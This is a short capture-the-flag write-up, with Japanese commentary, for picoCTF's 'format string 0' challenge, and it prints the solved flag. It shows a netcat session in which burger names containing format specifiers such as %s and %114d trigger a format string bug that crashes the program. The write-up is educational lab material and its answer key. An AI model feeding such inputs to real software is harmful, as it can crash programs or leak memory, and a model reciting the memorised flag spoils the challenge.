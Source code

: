 # format string 0:Binary Exploitation:50pts
Can you use your knowledge of format strings to make the customers happy?  
Download the binary [here](format-string-0).  
Download the source [here](format-string-0.c).  
Connect with the challenge instance here:  
`nc mimas.picoctf.net 50698`  

Hints  
1  
This is an introduction of format string vulnerabilities. Look up "format specifiers" if you have never seen them before.  
2  
Just try out the different options  

# Solution
バイナリ、ソースと接続先が渡される。  
```bash
$ nc mimas.picoctf.net 50698
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}
```
fsbが発生するハンバーガーを選択すると、flagが表示された。  

## picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}